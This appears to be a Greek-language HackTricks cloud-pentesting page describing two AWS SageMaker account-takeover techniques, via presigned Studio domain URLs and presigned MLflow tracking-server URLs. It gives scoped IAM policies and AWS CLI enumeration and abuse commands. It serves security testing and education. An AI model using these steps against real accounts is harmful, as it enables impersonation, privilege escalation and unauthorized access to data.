 # AWS - SageMaker Μη Εξουσιοδοτημένη Πρόσβαση

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Απαλλοτρίωση λογαριασμού μέσω CreatePresignedDomainUrl (Προσποίηση οποιουδήποτε UserProfile)

### Περιγραφή
Μια ταυτότητα με δικαίωμα να καλεί `sagemaker:CreatePresignedDomainUrl` σε έναν στοχευμένο Studio `UserProfile` μπορεί να δημιουργήσει ένα URL σύνδεσης που αυθεντικοποιεί απευθείας στο SageMaker Studio ως αυτό το προφίλ. Αυτό παρέχει στο πρόγραμμα περιήγησης του επιτιθέμενου μια Studio συνεδρία που κληρονομεί τα δικαιώματα `ExecutionRole` του προφίλ και πλήρη πρόσβαση στο home του προφίλ που βασίζεται σε EFS και στις εφαρμογές του. Δεν απαιτείται `iam:PassRole` ή πρόσβαση στην κονσόλα.

### Απαιτήσεις
- Ένα SageMaker Studio `Domain` και ένα στοχευμένο `UserProfile` μέσα σε αυτό.
- Ο principal του επιτιθέμενου χρειάζεται `sagemaker:CreatePresignedDomainUrl` στο στοχευμένο `UserProfile` (σε επίπεδο πόρου) ή `*`.

Παράδειγμα ελάχιστης πολιτικής (περιορισμένο σε ένα UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Βήματα Κατάχρησης

1) Εντοπίστε ένα Studio Domain και UserProfiles που μπορείτε να στοχοποιήσετε
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Δημιουργήστε ένα presigned URL (έγκυρο για ~5 λεπτά από προεπιλογή)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Άνοιξε το επιστρεφόμενο URL σε έναν περιηγητή για να συνδεθείς στο Studio ως ο στοχευόμενος χρήστης. Σε ένα Jupyter τερματικό μέσα στο Studio επαλήθευσε την ενεργή ταυτότητα:
```bash
aws sts get-caller-identity
```
Notes:
- `--landing-uri` μπορεί να παραληφθεί. Ορισμένες τιμές (π.χ., `app:JupyterLab:/lab`) ενδέχεται να απορριφθούν ανάλογα με τη διανομή/έκδοση του Studio· οι προεπιλογές συνήθως ανακατευθύνουν στην αρχική σελίδα του Studio και στη συνέχεια στο Jupyter.
- Οι πολιτικές του οργανισμού/περιορισμοί endpoint VPC μπορεί να μπλοκάρουν ακόμη την πρόσβαση στο δίκτυο· η δημιουργία του token δεν απαιτεί σύνδεση στην κονσόλα ή `iam:PassRole`.

### Επιπτώσεις
- Lateral movement και privilege escalation με ανάληψη οποιουδήποτε Studio `UserProfile` του οποίου το ARN επιτρέπεται, κληρονομώντας το `ExecutionRole` του και το filesystem/apps.

### Αποδεικτικά στοιχεία (από ελεγχόμενη δοκιμή)
- Με μόνο το `sagemaker:CreatePresignedDomainUrl` σε ένα στοχευμένο `UserProfile`, ο ρόλος του επιτιθέμενου επέστρεψε με επιτυχία ένα `AuthorizedUrl` όπως:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Μια άμεση HTTP αίτηση απαντά με ανακατεύθυνση (HTTP 302) προς το Studio, επιβεβαιώνοντας ότι το URL είναι έγκυρο και ενεργό μέχρι τη λήξη του.


## SageMaker MLflow Tracking Server - ATO μέσω CreatePresignedMlflowTrackingServerUrl

### Περιγραφή
Μια ταυτότητα με άδεια να καλεί `sagemaker:CreatePresignedMlflowTrackingServerUrl` για έναν στοχευόμενο SageMaker MLflow Tracking Server μπορεί να δημιουργήσει ένα presigned URL μίας χρήσης που αυθεντικοποιείται απευθείας στο managed MLflow UI αυτού του server. Αυτό παρέχει την ίδια πρόσβαση που θα είχε ένας νόμιμος χρήστης στον server (προβολή/δημιουργία experiments και runs, και λήψη/ανέβασμα artifacts στο S3 artifact store του server) χωρίς πρόσβαση στο console ή `iam:PassRole`.

### Απαιτήσεις
- Ένας SageMaker MLflow Tracking Server στον account/region και το όνομά του.
- Ο attacker principal χρειάζεται `sagemaker:CreatePresignedMlflowTrackingServerUrl` στο target MLflow Tracking Server resource (ή `*`).

Minimal policy example (scoped to one Tracking Server):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Βήματα Κατάχρησης

1) Καταγράψτε τους MLflow Tracking Servers που μπορείτε να στοχεύσετε και επιλέξτε ένα όνομα
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Δημιουργήστε ένα presigned MLflow UI URL (ισχύει για μικρό χρονικό διάστημα)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Ανοίξτε το επιστρεφόμενο URL σε ένα πρόγραμμα περιήγησης για να αποκτήσετε πρόσβαση στο MLflow UI ως επαληθευμένος χρήστης για αυτόν τον Tracking Server.

Notes:
- Ο Tracking Server πρέπει να βρίσκεται σε κατάσταση έτοιμη (π.χ., `Created/Active`). Αν εξακολουθεί να είναι `Creating`, η κλήση θα απορριφθεί.
- Το presigned URL είναι μιας χρήσης και βραχύβιο· δημιουργήστε νέο όταν χρειάζεται.

### Επιπτώσεις
- Άμεση πρόσβαση στο διαχειριζόμενο MLflow UI για τον στοχευμένο Tracking Server, επιτρέποντας την προβολή και τροποποίηση experiments/runs καθώς και την ανάκτηση ή μεταφόρτωση artifacts που αποθηκεύονται στο ρυθμισμένο S3 artifact store του server, εντός των δικαιωμάτων που επιβάλλει η διαμόρφωση του server.

{{#include ../../../../banners/hacktricks-training.md}}
